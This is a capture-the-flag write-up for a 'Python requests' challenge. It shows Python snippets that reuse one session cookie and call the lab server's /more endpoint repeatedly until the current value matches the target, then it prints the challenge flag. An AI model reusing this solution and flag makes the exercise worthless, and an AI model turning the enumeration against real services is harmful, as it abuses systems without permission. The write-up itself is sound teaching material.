 # Challenge `Python requests` Writeup

- Vulnerability: 
  - brute-force attack
- Where:
  - `/more` endpoint
- Impact:
  - allows to find the server's guess by enumeration

## Analyzing the server

This challenges consists in guessing a random number generated by the server.
By sending a request to `/hello` endpoint, the server responds with a initial value and a target value.
By sending a request to `/more` endpoint, our value increases or decreases by a random amount.
The flag is obtained by sending a request to `/finish` when the current value is equal to the target value.
The server's guess is associated with a user cookies, so all requests must be sent with the same cookie.

## Exploit

First send a request to `/hello` to obtain a cookie and the `current` and `target` values. 
```python
r = session.get(URL+"hello")
lines = r.text.split("<br>")
target = lines[0].split(" ")[-1][:-1]
current = lines[1].split(" ")[-1]
```
If they are different, send requests to `/more` until they are the same.
```python
r = session.get(URL+"more")
lines = r.text.split("<br>")
current = lines[2].split(" ")[-1]
```
Finally send a request to `/finish` to obtain the flag `SSof{Python_requests_is_a_good_complement_to_ZAP}`.
```python
r = session.get(URL+"finish")
flag = r.text.split(" ")[-1]
```

## Implementation

These code snippets and full implementation can be found [here](python_requests.py).
